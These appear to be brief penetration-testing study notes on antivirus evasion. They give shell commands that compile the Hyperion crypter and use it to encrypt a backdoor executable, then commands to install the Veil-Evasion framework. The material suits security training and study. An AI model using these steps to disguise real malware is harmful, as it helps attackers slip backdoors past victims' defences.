 
-   Crypting Known Malware with Software Protectors

    -   One such open source crypter, called Hyperion  
    
        `cp /usr/share/windows-binaries/Hyperion-1.0.zip  
        unzip Hyperion-1.0.zip  
        cd Hyperion-1.0/  
        i686-w64-mingw32-g++ Src/Crypter/*.cpp -o hyperion.exe  
        cp -p /usr/lib/gcc/i686-w64-mingw32/5.3-win32/libgcc_s_sjlj-1.dll .  
        cp -p /usr/lib/gcc/i686-w64-mingw32/5.3-win32/libstdc++-6.dll .  
        wine hyperion.exe ../backdoor.exe ../crypted.exe`

veil framework , wip

# Veil - Evasion Framework - https://github.com/Veil-Framework/Veil-Evasion

apt-get -y install git

git clone https://github.com/Veil-Framework/Veil-Evasion.git

cd Veil-Evasion/

cd setup

setup.sh -c